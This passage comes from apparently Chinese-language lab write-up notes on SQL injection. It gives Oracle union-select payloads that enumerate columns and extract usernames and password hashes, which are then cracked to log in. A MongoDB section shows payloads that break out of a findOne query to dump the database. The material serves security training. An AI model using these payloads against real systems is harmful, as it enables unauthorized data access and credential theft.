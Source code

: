 ![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135195293-49a5d365-82c9-401b-9c53-e4559d28db03.png)

```plain
爆列名：and 1=2 union select '1',(select column_name from all_tab_columns where rownum=1 and table_name='sns_users') from dual
爆其他列名：and 1=2 union select '1',(select column_name from all_tab_columns where rownum=1 and table_name='sns_users' and column_name not in ('USER_NAME')) from dual
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135195356-3608e967-79c2-40c2-8de0-7db307fc9fe4.png)

```plain
爆数据：and 1=2 union select user_name,user_pwd from "sns_users"
爆其他数据：and 1=2 union select user_name,user_pwd from "sns_users" where USER_NAME<>'hu'
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135195455-a844d004-0116-4f55-b955-6464db53c0ad.png)

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135195602-7dbfcc35-caee-4a18-bf8a-3d4454b31c5a.png)

经过md5解密，得到账号密码，登录，得到key,完成测试。

Mongodb

```plain
参考：https://www.runoob.com/mongodb/mongodb-query.html
这类型的数据库在python用的比较多。
启动靶场，发现关键性代码：
$query="var data=db.notice.findOne({'id':'$id'});return data;";这个是SQL执行语句，如果没有关键性代码，那么我们很难闭合这个符号，很难去猜解账号密码。
```

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135196392-3c3a4abd-202f-49cf-8acd-ffa87248c4e1.png)

```plain
如何构造payload？
正常写法：select * from news where id=1
mdb数据库写法：select * from news where id={('$id')}，需要闭合符号

原始语句：db.notice.findOne({'id':'$id'});return data;
如果 ?id=1 order by 2
那么语句就会变成：db.notice.findOne({'id':‘1 order by 2’});return data;，语句不正确。
但是注入语句 ?id=1'}); return ({title:tojson(db),content:'1
那么语句就变成：db.notice.findOne({'id':‘1'}); return ({title:tojson(db),content:'1'});return data; ，就可以进行正常的注入。
```

测回显：/new_list.php?id=1'}); return ({title:1,content:'2

![img](https://cdn.nlark.com/yuque/0/2024/png/1591503/1721135195725-ae125df4-a8d9-4218-b49c-f34033576c71.png)

```plain
爆库：  /new_list.php?id=1'}); return ({title:tojson(db),content:'1
记录数据库：mozhe_cms_Authority
```
